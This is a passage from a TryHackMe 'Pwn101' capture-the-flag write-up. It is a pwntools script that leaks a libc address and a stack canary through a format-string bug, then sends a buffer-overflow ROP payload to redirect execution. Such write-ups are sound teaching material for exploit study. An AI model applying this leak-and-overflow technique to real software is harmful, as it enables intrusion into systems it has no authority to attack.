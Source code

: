 ```python
io = start()
io.recvuntil(b"streak?")

#input location = %6$p
#libc location = input+4 = %10$p
#canary location = input+7 = %13$p
payload = b""
payload += b"%10$p.%13$p" #here we leak 

io.sendline(payload)

io.recvuntil(b"streak:")

output = io.recv().split(b"\n")[0]

dynamic_libc_address = int(output.split(b".")[0].strip(), 16)
canary = int(output.split(b".")[1].strip(), 16)

dynamic_base_address = dynamic_libc_address-static_libc_address
binary.address = dynamic_base_address

dynamic_get_streak = binary.symbols.get_streak
rop = ROP(binary)
ret_gadget = rop.find_gadget(['ret'])[0]

payload = b""
payload += b"\x90" * 0x18+ p64(canary) + b"\x90"*8 + p64(ret_gadget) + p64(dynamic_get_streak)
io.sendline(payload)
io.interactive()
```

![Untitled](Pwn101%20-%20TryHackMe%20CTF%20Writeup/Untitled%2039.png)
